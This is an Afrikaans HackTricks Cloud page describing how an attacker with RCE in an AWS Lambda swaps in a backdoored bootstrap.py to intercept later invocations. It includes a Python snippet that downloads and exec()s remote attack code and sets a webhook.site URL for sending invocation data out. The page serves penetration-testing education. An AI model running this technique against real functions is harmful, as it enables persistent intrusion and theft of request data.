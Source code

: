 # AWS - Steel Lambda Aanvrae

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Lambda Vloei

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **aanroepings** na die **init**-proses **stuur**.
2. Die init-proses luister op poort **9001** en stel 'n paar interessante eindpunte bloot:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroepinggebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gee die hanteringsantwoord vir die aanroeping terug
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gee 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepings van die init-proses kry en roep die gebruikerskode aan om hulle te hanteer (**`/next`**).
4. Laastens stuur **bootstrap.py** die **antwoord** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, sodat enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, eintlik in hierdie proses plaasvind.

## Steel Lambda Aanvrae

Die doel van hierdie aanval is om die gebruikerskode 'n bose **`bootstrap.py`**-proses binne die **`bootstrap.py`**-proses te laat uitvoer wat die kwesbare aanvraag hanteer. Op hierdie manier sal die **bose bootstrap**-proses begin **praat met die init-proses** om die aanvrae te hanteer terwyl die **wettige** bootstrap **vasgevang** is terwyl die bose een loop, sodat dit nie vir aanvrae aan die init-proses sal vra nie.&#x20;

Dit is 'n eenvoudige taak om te bereik omdat die kode van die gebruiker deur die wettige **`bootstrap.py`**-proses uitgevoer word. Die aanvaller kan dus:

* **Stuur 'n valse resultaat van die huidige aanroeping na die init-proses**, sodat init dink die bootstrap-proses wag vir meer aanroepings.
* 'n Aanvraag moet gestuur word na **`/${invoke-id}/response`**&#x20;
* Die invoke-id kan verkry word uit die stapel van die wettige **`bootstrap.py`**-proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) Python-module te gebruik (soos [voorgestel hier](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) of net weer daarna te vra by **`/2018-06-01/runtime/invocation/next`** (soos [voorgestel hier](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Voer 'n bose **`boostrap.py`** uit wat die volgende aanroepings sal hanteer
* Vir stilte doeleindes is dit moontlik om die lambda-aanroepingsparameters na 'n aanvaller se beheerde C2 te stuur en dan die aanvrae soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die bose kode by te voeg en dit van die huidige lambda-aanroeping uit te voer.

### Aanvalstappe

1. Vind 'n **RCE**-kwesbaarheid.
2. Skep 'n **bose** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Voer** die bose bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur te hardloop:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Vir meer inligting kyk na [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Verwysings

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

